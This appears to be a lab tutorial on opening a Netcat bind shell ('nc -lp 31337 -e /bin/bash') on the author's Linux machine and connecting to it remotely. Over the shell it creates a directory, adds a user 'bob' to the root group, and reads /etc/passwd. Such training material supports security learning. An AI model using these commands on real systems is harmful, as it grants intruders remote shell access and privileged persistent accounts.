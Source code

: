 ## LINUX REMOTE SHELL
Obtaining a remote shell on a Linux machine is very similar to doing it on Windows. However, there are a couple of things that appear differently. First, when you connect to a Windows shell, you are presented with a user prompt that helps you to be oriented. However, on the Linux side you will see no such prompt. It takes a little bit of getting used to, but it should not affect the operations drastically. Secondly, On my Linux Mint machine, my user account is not a root user. Therefore, in order to accomplish the same goals as the preceding Windows Feature, I need to make a concession and run Netcat through sudo. This will allow me to replicate the preceding features as closely as the prior feature to provide an apple-to-apple comparison. So, we will perform the following steps:

## Preparing the listener
Like we did on the Windows side, to prepare the listener we will type the following command into the command line:
```
sudo nc –lp 31337 –e /bin/bash
```
As we see in the screenshot that follows, we are simply calling the /bin/bash shell on connection, which is equivalent to the Windows command prompt. However, unlike the Windows counterpart, the capital L switch means something completely different in GNU Netcat, and does not even exist in the original Unix Netcat.

![image](https://user-images.githubusercontent.com/47218880/68692621-6a215480-053b-11ea-87ae-96c4ee7d1752.png)

## Connecting to the target
As I have demonstrated in the previous exercise, you simply connect to the host (as shown below) and the port that you want to connect to, and the listener will serve up the bash shell for you as follows:
```
nc 192.168.0.11 31337
```

![image](https://user-images.githubusercontent.com/47218880/68692674-7c02f780-053b-11ea-8559-96ae7db7c152.png)


## Running a directory listing on the target
As mentioned in the preceding section, the Linux side does not provide the same level of feedback to let me know if I have a bash shell. However, by typing in ones in the shell, we see that we do return a listing of the directories and files on the remote system, as shown in the following screenshot:

![image](https://user-images.githubusercontent.com/47218880/68692711-8d4c0400-053b-11ea-99f6-4317e09604f7.png)


## Making a directory on the target
As demonstrated in the following screenshot, I created a directory called pwn3d using the mkdir command and the full command is mkdir pwn3d:

![image](https://user-images.githubusercontent.com/47218880/68692769-a654b500-053b-11ea-8d00-1eb730d9ecbd.png)


Verifying if the directory was created
After performing another ls command, as demonstrated in the following screenshot, we see that the directory, in fact, was created:

![image](https://user-images.githubusercontent.com/47218880/68692802-b4a2d100-053b-11ea-9c36-eaf63f034b5f.png)

Adding a local user and placing into the root group
Finally, we use the useradd command to add a local user to the system and grant the account bob access to the root group. This, once again, is demonstrated as follows:
```
useradd –g root bob
```

![image](https://user-images.githubusercontent.com/47218880/68692827-c5ebdd80-053b-11ea-934e-3558b12a61d3.png)

Next, we want to provide the verification of the useradd action, first by doing a simple grep over /etc/passwd, as shown in the next screenshot using the following command:
```
grep bob /etc/passwd
```
![image](https://user-images.githubusercontent.com/47218880/68692871-dc923480-053b-11ea-9bcf-a044a9796e80.png)


Lastly, we will dump the entire /etc/passwd file next using the following command:
```
tail /etc/passwd
```

![image](https://user-images.githubusercontent.com/47218880/68692912-ec117d80-053b-11ea-9998-72cf64892d88.png)







